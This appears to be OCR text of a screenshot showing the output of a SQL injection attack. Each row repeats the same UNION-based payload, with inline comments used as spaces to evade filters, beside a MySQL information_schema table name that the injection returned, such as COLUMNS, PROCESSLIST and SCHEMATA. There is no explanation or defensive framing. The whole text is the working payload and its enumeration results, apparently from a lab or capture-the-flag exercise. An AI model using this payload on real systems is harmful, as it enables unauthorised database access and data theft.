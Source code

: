     ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: COLLATIONS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: COLLATION_CHARACTER_SET_APPLICABILITY
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: COLUMNS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: COLUMN_PRIVILEGES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: ENGINES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: EVENTS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: FILES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: GLOBAL_STATUS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: GLOBAL_VARIABLES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: KEY_COLUMN_USAGE
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: PARAMETERS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: PARTITIONS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: PLUGINS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: PROCESSLIST
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: PROFILING
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: REFERENTIAL_CONSTRAINTS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: ROUTINES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: SCHEMATA
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: SCHEMA_PRIVILEGES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: SESSION_STATUS
    